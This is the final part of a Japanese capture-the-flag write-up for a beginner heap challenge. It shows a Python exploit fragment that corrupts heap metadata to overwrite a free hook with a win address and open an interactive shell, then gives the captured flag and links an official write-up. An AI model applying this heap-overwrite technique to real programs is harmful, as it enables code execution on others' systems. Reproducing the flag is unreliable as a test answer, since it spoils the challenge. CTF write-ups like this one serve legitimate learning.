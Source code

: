 ```python
    malloc_b(s)
    free_b(s)

    payload = b"a" * 8 * 3
    payload += p64(0x31)
    payload += p64(free_hook_addr)
    write_a(s, payload)

    malloc_b(s)
    free_b(s)
    malloc_b(s, p64(win_addr))
    free_b(s)

    # print(s.recv(4096))
    s.interactive()
```

## Flag

当日は出ていませんがまだ鯖が動いていたので取れました
`ctf4b{l1bc_m4ll0c_h34p_0v3rfl0w_b4s1cs}`

## 公式Writeup

https://ptr-yudai.hatenablog.com/entry/2020/05/24/174914#Pwn-293pts-Beginners-Heap-62-solves
